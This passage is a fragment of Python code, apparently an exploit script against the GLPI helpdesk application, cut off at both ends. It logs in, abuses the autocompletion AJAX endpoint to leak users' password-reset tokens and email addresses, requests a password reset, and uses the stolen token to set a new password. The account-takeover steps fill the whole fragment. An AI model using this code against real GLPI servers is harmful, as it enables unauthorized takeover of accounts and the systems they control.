 ```python
        }
        
        r = self.session.post('{}/front/login.php'.format(self.url), data=data, allow_redirects=False)
        
        return r.status_code == 302
    
    
    def get_data(self, field, term=None):        
        params = {
            "field": field,
            "term": term if term else ""
        }
        
        r = self.session.get('{}/ajax/autocompletion.php'.format(self.url), params=params)
        
        if r.status_code == 200:
            try:
                data = json.loads(r.text)
            except:
                return None
            return data
        return None
        
    
    def get_forget_token(self):
        return self.get_data('User', 'password_forget_token')
    
    
    def get_emails(self):
        return self.get_data('UserEmail', 'email')
    
    
    def lost_password_request(self, email):
        r = self.session.get('{0}/front/lostpassword.php'.format(self.url))
        try:
            csrf_token = self.extract_csrf(r.text)
        except Exception as e:
            print ("[-] Lost password error: could not retrieve form data")
            sys.exit(1)
        
        data = {
            "email": email,
            "update": "Save",
            "_glpi_csrf_token": csrf_token
        }
        
        r = self.session.post('{}/front/lostpassword.php'.format(self.url), data=data)
        return 'An email has been sent' in r.text
    
    
    def change_password(self, email, password, token):
        r = self.session.get('{0}/front/lostpassword.php'.format(self.url), params={'password_forget_token': token})
        try:
            csrf_token = self.extract_csrf(r.text)
        except Exception as e:
            print ("[-] Change password error: could not retrieve form data")
            sys.exit(1)
        
        data = {
            "email": email,
            "password": password,
```